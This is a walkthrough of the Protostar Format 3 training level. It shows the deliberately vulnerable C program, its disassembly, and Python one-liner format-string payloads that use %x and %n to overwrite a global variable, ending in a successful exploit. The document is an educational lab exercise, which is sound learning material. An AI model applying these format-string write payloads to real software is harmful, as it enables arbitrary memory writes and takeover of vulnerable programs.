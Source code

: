 # PROTOSTAR : FORMAT 3
[Protostar:Format3](https://exploit.education/protostar/format-three/)

### **SOURCE CODE**
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int target;

void printbuffer(char *string)
{
  printf(string);
}

void vuln()
{
  char buffer[512];

  fgets(buffer, sizeof(buffer), stdin);

  printbuffer(buffer);
  
  if(target == 0x01025544) {
      printf("you have modified the target :)\n");
  } else {
      printf("target is %08x :(\n", target);
  }
}

int main(int argc, char **argv)
{
  vuln();
}
```

### **CODE ANALYSIS**
#### Vulnerability
- Format Strings

The level involves Format Strings Vulnerability just like the previous level but unlike the previous level this level involves writing to more than 1 byte of memory, we need to change the value of **target** variable to exactly **0x01025544**.

Below is the disassembly of the **vuln** function.
```
user@protostar:/opt/protostar/bin$ gdb -q format3
Reading symbols from /opt/protostar/bin/format3...done.
(gdb) set disassembly-flavor intel
(gdb) disass vuln
Dump of assembler code for function vuln:
0x08048467 <vuln+0>:    push   ebp
0x08048468 <vuln+1>:    mov    ebp,esp
0x0804846a <vuln+3>:    sub    esp,0x218
0x08048470 <vuln+9>:    mov    eax,ds:0x80496e8
0x08048475 <vuln+14>:   mov    DWORD PTR [esp+0x8],eax
0x08048479 <vuln+18>:   mov    DWORD PTR [esp+0x4],0x200
0x08048481 <vuln+26>:   lea    eax,[ebp-0x208]
0x08048487 <vuln+32>:   mov    DWORD PTR [esp],eax
0x0804848a <vuln+35>:   call   0x804835c <fgets@plt>
0x0804848f <vuln+40>:   lea    eax,[ebp-0x208]
0x08048495 <vuln+46>:   mov    DWORD PTR [esp],eax
0x08048498 <vuln+49>:   call   0x8048454 <printbuffer>
0x0804849d <vuln+54>:   mov    eax,ds:0x80496f4
0x080484a2 <vuln+59>:   cmp    eax,0x1025544
0x080484a7 <vuln+64>:   jne    0x80484b7 <vuln+80>
0x080484a9 <vuln+66>:   mov    DWORD PTR [esp],0x80485a0
0x080484b0 <vuln+73>:   call   0x804838c <puts@plt>
0x080484b5 <vuln+78>:   jmp    0x80484ce <vuln+103>
0x080484b7 <vuln+80>:   mov    edx,DWORD PTR ds:0x80496f4
0x080484bd <vuln+86>:   mov    eax,0x80485c0
0x080484c2 <vuln+91>:   mov    DWORD PTR [esp+0x4],edx
0x080484c6 <vuln+95>:   mov    DWORD PTR [esp],eax
0x080484c9 <vuln+98>:   call   0x804837c <printf@plt>
0x080484ce <vuln+103>:  leave  
0x080484cf <vuln+104>:  ret    
End of assembler dump.
```

Let's find the address of the **target** variable first using objdump.
```
user@protostar:/opt/protostar/bin$ objdump -t format3 | grep "target"
080496f4 g     O .bss   00000004              target
```

Now I am going to use this address as our input string and find the padding of the **printf** function pointer. So we got the **Padding** for the **1st Byte**.
```
user@protostar:/opt/protostar/bin$ (python -c 'print "\xf4\x96\x04\x08" + "%x."*12') | ./format3
�0.bffff5d0.b7fd7ff4.0.0.bffff7d8.804849d.bffff5d0.200.b7fd8420.bffff614.80496f4.
target is 00000000 :(
```

The 2nd, 3rd and 4th Bytes are going to be the adjacent addresses of the 1st byte so they are :-
- **080496f4** (Byte 1)
- **080496f5** (Byte 2)
- **080496f6** (Byte 3)
- **080496f7** (Byte 4)

In the below script, as I discussed previously the **padding** for the 1st byte = 12 and **%n** writes the number of bytes written so far. Only using **%12$n** gives **target = 4** and **0x44 = 68** in decimal so **68 - 4 = 64** so I used **%64x** which gives 64 bytes.
```
user@protostar:/opt/protostar/bin$ (python -c 'print "\xf4\x96\x04\x08" + "%64x%12$n"') | ./format3
�                                                               0
target is 00000044 :(
```

I am going to append all the necessary addresses and change their values. This is going to require some trial and errors. The best way to do this is trying to focus on 1 byte at a time. For example -> the **0x01025544** has **0x44** at the 1st byte(**LITTLE ENDIAN**) so change that first and move on to the 2nd,3rd and 4th byte.

```
user@protostar:/opt/protostar/bin$ (python -c 'print "\xf4\x96\x04\x08" + "\xf5\x96\x04\x08" + "\xf6\x96\x04\x08" + "%56x%12$n" + "%17x%13$n" + "%173x%14$n"') | ./format3
���                                                       0         bffff5d0                                                                                                                                                                     b7fd7ff4
you have modified the target :)
```
There might be problems related to stack alignment so keep changing and figuring it out and try to match each byte with the **target** value.